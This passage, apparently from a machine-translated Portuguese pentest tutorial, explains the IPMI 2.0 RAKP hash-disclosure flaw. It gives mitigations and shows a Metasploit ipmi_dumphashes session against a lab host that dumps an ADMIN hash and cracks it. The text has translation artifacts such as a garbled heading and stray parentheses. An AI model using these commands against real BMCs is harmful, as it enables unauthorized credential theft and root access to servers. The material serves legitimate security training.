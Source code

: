 Não há "correção" direta a esse problema porque a falha é um componente crítico da especificação IPMI. Os clientes podem optar por senhas muito longas e difíceis de quebrar ou implementar regras de segmentação de rede para restringir o acesso direto aos BMCs. É importante não ignorar o IPMI durante os testes de penetração interna (, nós o vemos durante a maioria das avaliações ), porque não apenas podemos obter acesso ao console da web da BMC, que é uma descoberta de alto risco, mas vimos ambientes em que uma senha exclusiva (, mas quebrável ), é definida e posteriormente reutilizada em outros sistemas. Em um desses testes de penetração, obtivemos um hash IPMI, quebramos offline usando Hashcat, e foram capazes de SSH em muitos servidores críticos no ambiente como usuário root e obter acesso a consoles de gerenciamento da web para várias ferramentas de monitoramento de rede.

Para recuperar hashes IPMI, podemos usar o módulo Metasploit [Recuperação remota de hash de senha SHA1 do IPMI 2.0 RAKP](https://www.rapid7.com/db/modules/auxiliary/scanner/ipmi/ipmi_dumphashes/) .

#### Hastes de despejo de metasploit

```shell-session
msf6 > use auxiliary/scanner/ipmi/ipmi_dumphashes 
msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > set rhosts 10.129.42.195
msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > show options 

Module options (auxiliary/scanner/ipmi/ipmi_dumphashes):

   Name                 Current Setting                                                    Required  Description
   ----                 ---------------                                                    --------  -----------
   CRACK_COMMON         true                                                               yes       Automatically crack common passwords as they are obtained
   OUTPUT_HASHCAT_FILE                                                                     no        Save captured password hashes in hashcat format
   OUTPUT_JOHN_FILE                                                                        no        Save captured password hashes in john the ripper format
   PASS_FILE            /usr/share/metasploit-framework/data/wordlists/ipmi_passwords.txt  yes       File containing common passwords for offline cracking, one per line
   RHOSTS               10.129.42.195                                                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT                623                                                                yes       The target port
   THREADS              1                                                                  yes       The number of concurrent threads (max one per host)
   USER_FILE            /usr/share/metasploit-framework/data/wordlists/ipmi_users.txt      yes       File containing usernames, one per line



msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > run

[+] 10.129.42.195:623 - IPMI - Hash found: ADMIN:8e160d4802040000205ee9253b6b8dac3052c837e23faa631260719fce740d45c3139a7dd4317b9ea123456789abcdefa123456789abcdef140541444d494e:a3e82878a09daa8ae3e6c22f9080f8337fe0ed7e
[+] 10.129.42.195:623 - IPMI - Hash for user 'ADMIN' matches password 'ADMIN'
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
